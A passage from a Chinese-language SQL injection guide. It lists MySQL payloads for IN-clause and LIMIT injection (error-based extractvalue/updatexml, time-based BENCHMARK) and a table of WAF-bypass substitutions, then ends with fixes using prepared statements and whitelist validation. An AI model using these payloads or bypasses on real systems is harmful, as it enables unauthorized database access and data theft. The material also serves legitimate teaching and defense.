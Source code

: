 #### 2.2.9 in注入

```
if(1=1,115,1)

extractvalue(rand(),version())
updatexml(rand(),version(),0)
(SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)
```

#### 2.2.10 limit 注入 

```
limit 2,1 procedure analyse((extractvalue(rand(),(select 1234567890))),1);—/**/-   # (5.0.0<mysql<5.6.6) 

limit 2,1 procedure analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5,BENCHMARK(5000000,SHA1(1)),1))))),1);-- -
```

### 2.3 Bypass

| 关键词                    | 替换词                                                       |
| ------------------------- | ------------------------------------------------------------ |
| and、or、xor、<>          | &、\|\|、^、!=                                               |
| 空格                      | %0a 、 %0d 、%20 、/\*\*/ 、 /\*!test\*/、 /\*/\*!test\*/\*/ 、select(id)from(sys_role) |
| information_schema.tables | information_schema . tables、information_schema.(partitions) |
| sleep(5)                  | BENCHMARK(30000000,md5(1))<br/>BENCHMARK(30000000*(ascii(mid(lower(user()),1,1))=98),md5(1)) |
| union select              | 1e12union(select~1,2)                                        |

## 0x03 SQL注入漏洞修复

### 3.1 预编译并绑定变量

​	Web后台系统应默认使用预编译绑定变量的形式创建sql语句，保持查询语句和数据相分离，以从本质上避免SQL注入风险。

### 3.2 白名单过滤

​	对于表名、列名等无法进行预编译的场景，比如外部数据拼接到order by, group by语句中，需通过白名单的形式对数据进行校验，例如判断传入列名是否存在、升降序仅允许输入"ASC"和"DESC"、表明列名仅允许输入字符、数字、下划线等。
